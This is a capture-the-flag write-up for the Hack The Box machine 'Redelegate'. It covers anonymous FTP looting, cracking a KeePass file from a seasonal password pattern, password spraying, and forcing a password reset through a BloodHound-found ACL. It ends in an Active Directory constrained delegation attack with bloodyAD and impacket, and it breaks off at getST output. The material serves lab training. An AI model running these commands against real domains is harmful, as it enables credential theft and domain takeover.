<h1>HTB: Redelegate</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Redelegate)   |
| Difficulty | Hard                                                             |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 24th 2026                                                   |

--- 

<h2>Enumeration</h2>

Before we do anything lets create three files:

1. <b>credentials.txt</b> where we will store valid username/passwd combinations
2. <b>users.txt</b> where we will store all usernames we come across
3. <b>pass.txt</b> where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse.


<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.234.50 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can immediately see that the target machine is running an `FTP` server and because of our addition of the `-sC` flag the nmap scan also shows that allows for anonymous logins. The target is also running a DNS server on port 53, `ldap` on port 389, `kerberos` on port 88, `smb` share on port 445, and `windows remote management` on port 5985 among other things. We can also see that the Host is named  `DC` and the domain is `redelegate.vl` so lets add `dc.redelegate.vl` and `redelegate.vl` to our /etc/hosts file.


```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-24 23:35:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-24T23:13:34
|_Not valid after:  2056-07-24T23:13:34
| ms-sql-ntlm-info: 
|   10.129.234.50:1433: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.129.234.50:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-07-24T23:36:58+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-24T23:36:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-07-23T23:11:16
|_Not valid after:  2027-01-22T23:11:16
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-24T23:36:49+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

                                ...

49932/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.234.50:49932: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 49932
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-24T23:13:34
|_Not valid after:  2056-07-24T23:13:34
|_ssl-date: 2026-07-24T23:36:58+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.234.50:49932: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
50442/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

                                ...

Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<h3>FTP</h3>

From the nmap scan we can see that the default lua script found the server supports anonymous login and then it also shows the three files the share contains:

- <b>CyberAudit.txt</b>
- <b>Shared.kdbx</b>
- <b>TrainingAgenda.txt</b>

Let's download them and see that they contain:

---

<h3> *** IMPORTANT ***</h3>

Before downloading the `Shared.kdbx` file switch into `binary` mode.

---



The `CyberAudit.txt` file contains the results of a CyberSecurity Audit along with a progress report on Remediation Steps:

```
OCTOBER 2024 AUDIT FINDINGS

[!] CyberSecurity Audit findings:

1) Weak User Passwords
2) Excessive Privilege assigned to users
3) Unused Active Directory objects
4) Dangerous Active Directory ACLs

[*] Remediation steps:

1) Prompt users to change their passwords: DONE
2) Check privileges for all users and remove high privileges: DONE
3) Remove unused objects in the domain: IN PROGRESS
4) Recheck ACLs: IN PROGRESS
```

From this we can see that the audit found that there were weak user password, excessive user privileges, unused AD objects, and dangerous ACLs. The remediation steps state that users were prompted to change their password, though they don't state that a new password requirement was put in place so the same weak passwords could be reused. Two of the remediation steps remain in progress, specifically the `Remove unused objects in the domain` and `Recheck ACLs`.

The `TrainingAgenda.txt` file contains the `EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)`:

```
EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)

Friday 4th October  | 14.30 - 16.30 - 53 attendees
"Don't take the bait" - How to better understand phishing emails and what to do when you see one


Friday 11th October | 15.30 - 17.30 - 61 attendees
"Social Media and their dangers" - What happens to what you post online?


Friday 18th October | 11.30 - 13.30 - 7 attendees
"Weak Passwords" - Why "SeasonYear!" is not a good password 


Friday 25th October | 9.30 - 12.30 - 29 attendees
"What now?" - Consequences of a cyber attack and how to mitigate them
```

Noticeably the `Weak Passwords` training only had 7 attendees and the description lists what could be a popular password format of `SeasonYear!`. Given the year of the training was 2024 this gives us a very useful template for a password list. 

The last file `Shared.kdbx` is a `Keepass password database 2.x KDBX` which when we attempt to open states that a password is needed to unlock it:



Lets attempt to crack the password using `John the Ripper`.

<h3>John the Ripper</h3>

Before we attempt to extract and crack the password hash lets create a wordlist based on the template we found in the other document `SeasonYear!`.

For each of the four seasons there are 4 variations given this template. We can maybe assume that the first letter is capitalized but this is not a guarantee so we will include both versions. Additionally the year could be the full year including the century such as 2024 or just the 24:




Now let's extract the hash using `keepass2john`:

```
keepass2john Shared.kdbx
```



Now we can unlock the `Shared.kdbx` file:



The file contains username and password information for `IT`, `HelpDesk`, and `Finance` department users so lets add them to our credentials files.

Looking back at the nmap scan we can see that there is a `MSSQL` server running on port 1433. Lets test the `sqlguest` credentials and see if we can gain access using `nxc`.

<h3>nxc</h3>

Running the command:

```
nxc mssql redelegate.vl -u SQLGuest -p ************ --local-auth
```

Shows us that these credentials are indeed valid for the MSSQL service! Lets connect to it using `impacket-mssqlclient`.

<h3>Impacket-mssqlclient</h3>

First we need to connect to the the server using the command:

```
impacket-mssqlclient SQLGuest:<PASSWORD>@redelegate.vl
```



Enumeration of the database does not provide anything of note beyond the presence of a `sa` user. So lets picot to using `Metasploit` to do some more enumeration.

<h3>Metasploit</h3>

After starting Metasploit using the `msfconsole` command we can search for MSSQL related modules using the `search MSSQL` command:



This returns 64 results but we are particularly interested in module `53` titled `auxiliary/admin/mssql/mssql_enum_domain_accounts` which we can select using the command `use 53`.

Running the `options` command shows us the information we need to fill out:



We will use the `SQLGuest` credentials here:



From this we gain a few new usernames to add to our users.txt file:



Using `nxc` we can perform a password spraying attack using the usernames and password we have obtained thud far.

<h3>nxc</h3>

After performing the attack on various services such as `MSSQL` and `FTP` we finally got a hit using `SMB`:

```
nxc smb redelegate.vl -u usernames.txt -p pass.txt --continue-on-success
```



Great! We now have credentials for the user `Marie.Curie` so let's attempt to use them to run `bloodhound-python`.

<h3>Bloodhound-python</h3>

The bloodhound-python command:

```
bloodhound-python -c All -d re -u Marie.Curie -p '<PASSWORD>' -dc dc.redelegate.vl -ns 10.129.42.128
```

Shows that it found 12 users, 56 groups, 2 gps, 1 ous, and 19 containers:



It then stores this information in a series of .json files that we will need to upload to out graphical bloodhound instance which we can start with `bloodhound-start`:



We can then move to the `Explore` tab on the left side menu. Here we can search for the `Marie.Curie` user and mark them as owned:



This allows us to use one of bloodhound most useful queries the `Shortest paths from Owned objects`:




From this we can see that `Marie.Curie` is a member of the `HELPDESK` group which has `ForceChangePassword` permissions over the users:

- James.Dinkleberg
- Michael.Pontiac
- Sql_svc
- Guest
- Christine.Flanders 
- Helen.Frost

The most immediately interesting is `Helen.Frost` who is a member of the `IT` groups as well as the `REMOTE MANAGEMENT` group. The `IT` group has `GenericAll` permissions over the `FS01` computer meaning members of the group have full permissions over the object. 

As we don't yet have remote access to the machine we will use `bloody-ad` to change `Helen.Frost`'s password.

<h2>Foothold</h2>

<h3>Bloody-AD</h3>

To run the bloody-ad command we need a valid set of user credentials as well as the domain and domain controller:

```
bloodyAD -d redelegate.vl -u 'marie.curie' -p '<PASSWORD>' --host dc.redelegate.vl set password 'helen.frost' 'Password123!'
```



We can then use these newly changed credentials to login to the target machine using `evil-winrm`

<h3>Evil-WinRM

Logging in with the command:

```
evil-winrm -i redelegate.vl -u 'helen.frost' -p 'Password123!'
```

We can find the user.txt flag in `C:\Users\Helen.Frost\Desktop`:



<h2>Privilege Escalation</h2>

Running the `whoami /priv` command reveals that we as the `Helen.Frost` user have `SeEnableDelegationPrivilege`'s. 

Clicking on the `GenericAll` permission in bloodhound it tells us that a `Resource-Based Constrained Delegation attack` is possible given our current permissions. 



However this attack requires us to add a machine account and when we check the `machineaccountquota` using :

```
Get-DomainObject -Identity 'DC=REDELEGATE,DC=VL' | select ms-ds-machineaccountquota
```

We see the `ms-ds-machineaccountquota` is 0, meaning we cannot add any machine accounts.

This means we will have to switch to a regular `Constrained Delegation Attack` which first requires us to get a TicketGrantingTicket for Helen.Frost using impacket-getTGT.

<h3>Impacket-getTGT</h3>

The first step in this `Delegation Attack` process is to retrieve a TGT for the user `Helen.Frost` using the command:

```
impacket-getTGT redelegate.vl/helen.frost:'Password123!'
```

This saves the ticket to a file titled `helen.frost.ccache` which we need to set the environment variable `KRB5CCNAME` equal to using the command:

```
export KRB5CCNAME=helen.frost.ccache
```

We can now continue the attack using `BloodyAD`.

<h3>Bloody-AD</h3>

Using kerberos authentication we can change the password for the `FS01$` using the bloodyad command:

```
bloodyad -d redelegate.vl -k --host dc.redelegate.vl set password "FS01$" 'Password123!
```

Then we need to alter the UAC for `FS01$` adding the `TRUSTED_TO_AUTH_FOR_DELEGATION` attribute:

```
bloodyad -d redelegate.vl -k --host "dc.redelegate.vl" add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

Then we need to alter the `msDS-AllowedToDelegateTo` to point to `cifs/dc.redelegate.vl`

```
bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set object FS01$ msDS-
AllowedToDelegateTo -v 'cifs/dc.redelegate.vl'
```

Now we need to unset the `KRB5CCNAME` using the command:

```
unset KRB5CCNAME
```

Now we can use `impacket-getST` to retrieve a Service Ticket.


<h3>Impacket-getST</h3>

To retrieve the service ticket we must run the command:

```
impacket-getST redelegate.vl/fs01$:'Password123!' -spn cifs/dc.redelegate.vl -impersonate dc
```

Which returns:

```
[-] CCache file is not found. Skipping...
